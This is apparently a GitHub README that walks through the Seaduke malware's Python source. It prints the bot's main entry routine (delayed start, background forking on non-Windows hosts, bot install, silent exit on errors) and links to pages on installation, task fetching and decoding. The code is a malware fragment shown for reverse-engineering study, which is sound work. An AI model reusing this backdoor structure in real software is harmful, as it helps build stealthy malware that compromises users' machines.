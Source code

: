 # what happens when you execute?
```python
if __name__=="__main__":
    time_sleep(botKlass.run_delay)
    if not botKlass.was_first_run:
        botKlass.was_first_run=True
    if v_sys_platform!='win32':
        forkmeiamfamous()
    me=BotInstallKlass(botKlass.key_id)

    try:
        seh_wrapper()
    except SystemExit:
        me=None
        time_sleep(1)
        sys_exit(0)
    except Exception as e:
        me=None
        time_sleep(1)
        sys_exit(0)
```

* 1) [installing botKlass](https://github.com/mynameisvinn/Seaduke/blob/master/install.md)
* 2) [seh_wrapper](https://github.com/mynameisvinn/Seaduke/blob/master/sehwrapper.md)
* 3) [fetching tasks](https://github.com/mynameisvinn/Seaduke/blob/master/fetch.md) with networkhandler
* 4) [decode](https://github.com/mynameisvinn/Seaduke/blob/master/decode.md)